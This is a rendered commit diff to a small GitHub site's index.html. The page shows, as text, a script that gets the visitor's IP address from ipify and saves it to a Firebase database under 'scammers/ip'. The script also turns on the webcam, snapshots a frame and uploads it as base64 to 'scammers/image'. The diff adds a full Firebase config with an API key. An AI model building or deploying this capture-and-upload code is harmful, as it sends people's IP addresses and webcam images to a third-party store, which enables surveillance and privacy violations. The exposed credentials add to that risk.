

Before and after one commit to focal15/testrepo, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 1109 px of the page at 91% size. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -9,7 +9,16 @@
   <style type="text/css">
     p.p1 {margin: 0.0px 0.0px 0.0px 0.0px; font: 13.6px '.AppleSystemUIFontMonospaced'; color: #181a1e; -webkit-text-stroke: #181a1e; background-color: #f4f6f9}
     p.p2 {margin: 0.0px 0.0px 0.0px 0.0px; font: 13.6px '.AppleSystemUIFontMonospaced'; color: #181a1e; -webkit-text-stroke: #181a1e; background-color: #f4f6f9; min-height: 16.0px}
+    p.p3 {margin: 0.0px 0.0px 0.0px 0.0px; font: 14.0px 'Helvetica Neue'; color: #40a33f; -webkit-text-stroke: #40a33f}
+    p.p4 {margin: 0.0px 0.0px 0.0px 0.0px; font: 14.0px 'Helvetica Neue'; color: #c9dbfc; color: rgba(201, 219, 252, 0.7); -webkit-text-stroke: rgba(201, 219, 252, 0.7)}
+    p.p5 {margin: 0.0px 0.0px 0.0px 0.0px; font: 14.0px 'Helvetica Neue'; color: #40a33f; -webkit-text-stroke: #40a33f; background-color: #0f0f0f}
     span.s1 {font-kerning: none}
+    span.s2 {font: 13.6px '.AppleSystemUIFontMonospaced'; font-kerning: none; color: #181a1e; background-color: #f4f6f9; -webkit-text-stroke: 0px #181a1e}
+    span.s3 {font-kerning: none; color: rgba(201, 219, 252, 0.7); background-color: #0f0f0f; -webkit-text-stroke: 0px rgba(201, 219, 252, 0.7)}
+    span.s4 {font-kerning: none; background-color: #0f0f0f}
+    span.s5 {font-kerning: none; color: rgba(201, 219, 252, 0.7); -webkit-text-stroke: 0px rgba(201, 219, 252, 0.7)}
+    span.s6 {font-kerning: none; color: #40a33f; background-color: #0f0f0f; -webkit-text-stroke: 0px #40a33f}
+    span.Apple-tab-span {white-space:pre}
   </style>
 </head>
 <body>
@@ -24,22 +33,41 @@
 <p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;canvas id="canvas"&gt;&lt;/canvas&gt;</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;p id="ipAddress"&gt;&lt;/p&gt;</span></p>
 <p class="p2"><span class="s1"></span><br></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;!-- Firebase SDK --&gt;</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;script src="https://www.gstatic.com/firebasejs/9.6.10/firebase-app.js"&gt;&lt;/script&gt;</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;script src="https://www.gstatic.com/firebasejs/9.6.10/firebase-database.js"&gt;&lt;/script&gt;</span></p>
+<p class="p2"><span class="s1"></span><br></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;script&gt;</span></p>
-<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const video = document.getElementById('video');</span></p>
-<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const canvas = document.getElementById('canvas');</span></p>
-<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const ctx = canvas.getContext('2d');</span></p>
-<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const ipDisplay = document.getElementById('ipAddress');</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>// Initialize Firebase</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const firebaseConfig = {</span></p>
+<p class="p3"><span class="s2"><span class="Apple-converted-space"> <span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span></span></span><span class="s3">apiKey: </span><span class="s4">"AIzaSyBGT7x9agdkbHCdAM2Kv2mzGSUaQYBn0x4"</span><span class="s3">,</span></p>
+<p class="p3"><span class="s5"><span class="Apple-converted-space">  <span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span></span></span><span class="s3">authDomain: </span><span class="s4">"trial-project-95e8b.firebaseapp.com"</span><span class="s3">,</span></p>
+<p class="p3"><span class="s3"><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span>databaseURL: </span><span class="s4">"https://trial-project-95e8b-default-rtdb.firebaseio.com"</span><span class="s3">,</span></p>
+<p class="p3"><span class="s3"><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span>projectId: </span><span class="s4">"trial-project-95e8b"</span><span class="s3">,</span></p>
+<p class="p3"><span class="s3"><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span>storageBucket: </span><span class="s4">"trial-project-95e8b.firebasestorage.app"</span><span class="s3">,</span></p>
+<p class="p4"><span class="s4"><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span>messagingSenderId: </span><span class="s6">"612720708486"</span><span class="s4">,</span></p>
+<p class="p5"><span class="s5"><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span><span class="Apple-tab-span">	</span>appId: </span><span class="s1">"1:612720708486:web:e13581b1189b860450fa07"</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>};</span></p>
+<p class="p2"><span class="s1"></span><br></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>// Initialize Firebase</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const app = firebase.initializeApp(firebaseConfig);</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const database = firebase.database();</span></p>
 <p class="p2"><span class="s1"></span><br></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>// Get the user's IP address</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>fetch('https://api.ipify.org?format=json')</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>.then(response =&gt; response.json())</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>.then(data =&gt; {</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>const ipDisplay = document.getElementById('ipAddress');</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>ipDisplay.textContent = "Your IP Address: " + data.ip;</span></p>
+<p class="p2"><span class="s1"></span><br></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>// Save IP to Firebase</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>database.ref('scammers/ip').set(data.ip);</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>});</span></p>
 <p class="p2"><span class="s1"></span><br></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>// Access the webcam</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>navigator.mediaDevices.getUserMedia({ video: true })</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>.then(stream =&gt; {</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>const video = document.getElementById('video');</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">                </span>video.srcObject = stream;</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>})</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>.catch(err =&gt; {</span></p>
@@ -47,13 +75,19 @@
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>});</span></p>
 <p class="p2"><span class="s1"></span><br></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>// Capture image from webcam</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const video = document.getElementById('video');</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const canvas = document.getElementById('canvas');</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>const ctx = canvas.getContext('2d');</span></p>
+<p class="p2"><span class="s1"></span><br></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>video.onplay = () =&gt; {</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>canvas.width = video.videoWidth;</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>canvas.height = video.videoHeight;</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>ctx.drawImage(video, 0, 0, canvas.width, canvas.height);</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>const imageData = canvas.toDataURL('image/png');</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>console.log("Captured image:", imageData);</span></p>
-<p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>// You can send this image to a server here</span></p>
+<p class="p2"><span class="s1"></span><br></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>// Save image to Firebase (you can store it as a base64 string)</span></p>
+<p class="p1"><span class="s1"><span class="Apple-converted-space">            </span>database.ref('scammers/image').set(imageData);</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">        </span>};</span></p>
 <p class="p1"><span class="s1"><span class="Apple-converted-space">    </span>&lt;/script&gt;</span></p>
 <p class="p1"><span class="s1">&lt;/body&gt;</span></p>
```
